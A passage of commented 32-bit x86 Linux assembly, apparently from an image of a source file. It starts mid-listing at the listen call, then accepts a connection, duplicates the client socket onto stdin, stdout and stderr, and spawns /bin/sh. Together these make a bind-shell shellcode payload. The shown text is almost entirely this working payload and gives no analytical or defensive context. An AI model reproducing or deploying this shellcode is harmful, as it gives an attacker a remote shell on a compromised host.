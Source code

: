 ```s
    mov     bl, 4           ; SYS_LISTEN
    int     0x80

    ; ------------------------------------------------
    ; accept(sockfd, NULL, NULL)
    ; socketcall: ebx = SYS_ACCEPT (5), ecx = ptr([sockfd, addr, addrlen])
    ; We pass NULL for addr and addrlen
    ; ------------------------------------------------
    push    0               ; addrlen = NULL
    push    0               ; addr = NULL
    push    esi             ; sockfd
    mov     ecx, esp
    mov     eax, 0x66
    mov     bl, 5           ; SYS_ACCEPT
    int     0x80
    mov     ebx, eax        ; ebx = client socket fd

    ; ------------------------------------------------
    ; Redirect STDIN(0), STDOUT(1), STDERR(2) to socket
    ; dup2 loop: dup2(clientfd, 0); dup2(clientfd, 1); dup2(clientfd, 2);
    ; syscall: eax = 0x3f (dup2), ebx = oldfd (clientfd), ecx = newfd
    ; ------------------------------------------------
    xor     ecx, ecx        ; start with STDIN (0)

    ; STDIN
    mov     al, 0x3f        ; dup2 syscall = 63 (0x3f)
    int     0x80

    ; STDOUT
    inc     ecx             ; ecx = 1
    mov     al, 0x3f
    int     0x80

    ; STDERR
    inc     ecx             ; ecx = 2
    mov     al, 0x3f
    int     0x80

    ; ------------------------------------------------
    ; execve("/bin/sh", ["/bin/sh", NULL], NULL)
    ; ------------------------------------------------
    xor     eax, eax        ; clear EAX

    ; Push NULL terminator for string and arrays
    push    eax

    ; Push "/bin//sh" string (8 bytes for alignment)
    push    0x68732f2f      ; "hs//"
    push    0x6e69622f      ; "nib/"

    mov     ebx, esp        ; EBX points to "/bin//sh"

    ; Prepare execve arguments
    push    eax             ; NULL terminator for argv
    mov     edx, esp        ; envp = NULL
    push    ebx             ; argv[0] = pointer to "/bin//sh"
    mov     ecx, esp        ; argv
    mov     al, 0x0b        ; execve syscall = 11 (0x0b)
    int     0x80

```
